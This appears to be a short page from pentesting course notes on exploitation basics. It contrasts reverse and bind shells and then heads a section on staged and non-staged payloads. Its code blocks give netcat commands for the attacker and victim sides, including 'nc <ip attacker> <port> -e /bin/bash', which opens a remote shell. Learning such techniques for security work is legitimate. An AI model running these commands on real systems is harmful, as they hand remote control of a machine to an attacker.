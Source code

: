 # Exploitation basis

## Revshell vs blind shell

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Attacker :

<pre><code><strong># Reverse shell
</strong><strong>nc -lnvp 4444
</strong><strong># bind shell
</strong><strong>nc &#x3C;ip victime> &#x3C;port>
</strong></code></pre>

Victime :&#x20;

```
# Reverse shell
nc <ip attacker> <port> -e /bin/bash
# bind shell
nc -lnvp <port> -e /bin/bash
```

## Staged vs Non-Staged Payloads

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

